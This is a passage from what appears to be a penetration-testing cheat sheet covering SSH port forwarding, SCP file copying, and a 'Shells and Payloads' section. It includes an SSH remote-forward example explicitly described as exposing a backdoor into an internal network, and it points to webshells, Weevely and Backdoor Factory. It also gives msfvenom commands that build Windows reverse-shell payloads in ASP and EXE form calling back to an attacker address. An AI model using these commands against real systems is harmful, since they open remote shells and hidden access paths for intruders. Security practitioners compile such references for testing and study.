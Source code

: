 Signing the APK: `TO DO`

## SSH/SCP

### SSH

Connect (passwor): `ssh user@host`\
Local Port Forwarding (Maps port 80 on the localhost to port 80 on the remote host: ssh -L 80:target.host:80 pivot-host.com\
Local Port Forwarding (Maps port 80 on a differen ip to port 80 on the remote host: ssh -L 127.0.0.1:80:target.host:80 pivot-host.com\
Remote Port Forwarding (Maps port 80 on the remote host to the localhost port 8080, exposing localhost): ssh -R 8080:localhost:80 target-host.com\
Remote Port forwarding requires sshd_config changes: GatewayPorts yes, GatewayPorts clientspecified\
Example exposing a backdoor into the network: `ssh -R 2222:alternate-internal-host:22 -R 5432:alternate-internal-host:5432 external.host`\
SSH Control escape: `~C`\
Then commands: `-L 8080:localhost:80`\

### SCP

Copy a single file from local to remote: `scp ~/users.txt user@remote-host.com:~/userlist`\
Copy a single file from remote to local: `scp user@remote-host.com:~/userlist/users.txt ~/userlist`\
Copy a directory from local to remote (-r recursive): `scp -r ~/userlist user@remote-host.com:~/userlist`\
Copy a directory from remote to local (-r recursive): `scp -r user@remote-host.com:~/revenge ~/userlist`\
Copy from one ssh host to another ssh host (not yours): ` scp user@remote-host.com:~/users.txt user@another-remote-host.com:~/userlist`\

## Shells and Payloads

### Web
Webshells http://tools.kali.org/maintaining-access/webshells: `Kali webshells: /usr/share/webshells`
Weevely

### Executables
Backdoor factory

### Payloads - https://twitter.com/subTee/status/1157560782575419393 @Subtee
"CLR via C# - Richter
"Pro .NET Memory Mgmt" - Kokosa
"High Performance .NET" - Watson

### Msfvenom
Netcat ASP reverse shell (unstaged): `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f asp > reverse.asp`\
Netcat ASP reverse shell (staged): `msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f asp > reverse.asp`\
Netcat reverse shell (unstaged): `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe`\
Netcat reverse shell (staged): `msfvenom -p windows/shell/reverse_tcp LHOST=10.0.0.1 LPORT=4444 -f exe > reverse.exe`\
